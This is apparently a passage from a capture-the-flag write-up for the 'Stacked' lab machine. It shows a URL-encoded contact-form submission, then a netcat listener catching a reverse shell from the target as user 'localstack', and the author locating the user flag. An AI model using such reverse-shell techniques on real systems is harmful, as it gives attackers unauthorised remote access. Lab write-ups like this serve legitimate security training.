 ```bash
fullname=tgihf&email=tgihf%40stacked.htb&tel=111111111111&subject=Great+job!&message=Keep+up+the+good+work,+developing+nice,+secure+systems!
```

Grab the user flag at `/home/localstack/user.txt`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.39] 40372
bash: cannot set terminal process group (20): Not a tty
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
bash-5.0$ id
id
uid=1001(localstack) gid=1001(localstack) groups=1001(localstack)
bash-5.0$ ls -la /home/localstack/user.txt
ls -la /home/localstack/user.txt
-r--r-----    1 root     localsta        33 Jul 12  2021 /home/localstack/user.txt
```
